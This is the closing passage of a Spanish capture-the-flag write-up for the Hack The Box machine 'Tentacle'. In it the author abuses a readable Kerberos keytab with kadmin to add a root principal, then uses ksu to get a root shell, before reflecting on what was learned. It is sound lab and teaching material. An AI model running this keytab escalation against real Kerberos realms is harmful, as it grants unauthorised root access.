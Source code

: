 Pero no nos deja, no tenemos permisos, intentemos con otro <<principal>>, siguiendo la lista del `.keytab` seria `kadmin/admin@REALCORP.HTB`.

Para indicárselo al `kadmin` le agregamos el parámetro `-p`:

```bash
[admin@srv01 ~]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:  addprinc root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  
```

Vale, con este <<principal>> logramos la creación del nuevo <<principal>> con su respectiva contraseña (cualquiera).

Ahora probemos con el comando `ksu`, coloquemos la contraseña que le hallamos puesto y veamos que nos muestra:

![310bash_kadmin_shell_as_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310bash_kadmin_shell_as_root.png)

PERFECTOOOOO!! Somos `root` en la máquina, todo mediante el archivo `.keytab` el cual nos permitió cambiar el "target principal name" para obtener una Shell como él (: Que locura :o

* [Info sobre **Adding or Modifying pricipals**](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-admin/Adding-or-Modifying-Principals.html).
* [Configurando **KDCs** - **kadmin add_pricipal**](https://docs.fedoraproject.org/es-ES/Fedora/13/html/Security_Guide/sect-Security_Guide-Kerberos-Setting_Up_Secondary_KDCs.html).
* [Administrating **Keytab** files](https://docs.oracle.com/cd/E19683-01/806-4078/6jd6cjs1l/index.html).

Ahora, solo nos quedaría ver las flags:

![310flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310flags.png)

...

Que cosa insana parceeeeee. Me pareció súper difícil :o Igual muchísimos conceptos nuevos y que no había trabajado, eso también conllevo al buscar bastante ayuda, pero bueno, no podemos quedarnos estancados, lo mejor es buscar ayuda para al menor tener algo de luz. Me encanto el uso de `proxychains`. Fue mi parte favorita. El jugar con `kerberos` fue bastante interesante, entender su funcionamiento y herramientas, increíble. Lindo aprendizaje...

Y bueno, como siempre, muchísimas gracias por leerse tooooda esta locura y a seguir rompiendo todo. Esta máquina me dejo el cerebro exhausto :P